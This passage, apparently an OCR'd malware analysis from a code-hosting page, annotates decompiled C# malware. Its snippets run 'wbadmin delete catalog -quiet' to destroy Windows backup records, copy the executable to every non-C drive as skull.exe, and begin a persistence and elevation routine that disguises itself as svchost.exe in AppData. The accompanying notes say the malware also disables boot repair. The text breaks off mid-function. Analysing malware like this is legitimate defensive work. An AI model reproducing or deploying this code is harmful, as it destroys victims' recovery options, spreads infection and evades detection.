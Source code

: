 - configure the Windows Boot Manager settings to ignore any boot failures and disable the automatic startup repair .

```cs
private static void deleteBackupCatalog()
		{
			Program.runCommand("wbadmin delete catalog -quiet");
		}
```

-  Delete the backup catalog. The backup catalog is a database that contains information about the backups created using Windows Backup . 


```cs
private static string spreadName = "skull.exe";
```


```cs
private static void spreadIt(string spreadName)
		{
			foreach (DriveInfo driveInfo in DriveInfo.GetDrives())
			{
				if (driveInfo.ToString() != "C:\\" && !File.Exists(driveInfo.ToString() + spreadName))
				{
					try
					{
						File.Copy(Assembly.GetExecutingAssembly().Location, driveInfo.ToString() + spreadName);
					}
					catch
					{
					}
				}
			}
		}
```

- the malware spreading itself across the computer's drives except for "C" under the name of skull.exe 

```cs
private static string processName = "svchost.exe";
```

```cs
private static void copyResistForAdmin(string processName)
		{
			string friendlyName = AppDomain.CurrentDomain.FriendlyName;
			string location = Assembly.GetExecutingAssembly().Location;
			Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + friendlyName;
			string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\";
			string text2 = text + processName;
			ProcessStartInfo startInfo = new ProcessStartInfo(text2)
			{
				UseShellExecute = true,
				Verb = "runas",
				WindowStyle = ProcessWindowStyle.Normal,
				WorkingDirectory = text
			};
			Process process = new Process();
			process.StartInfo = startInfo;
			if (friendlyName != processName || location != text2)
			{
				if (!File.Exists(text2))
				{
```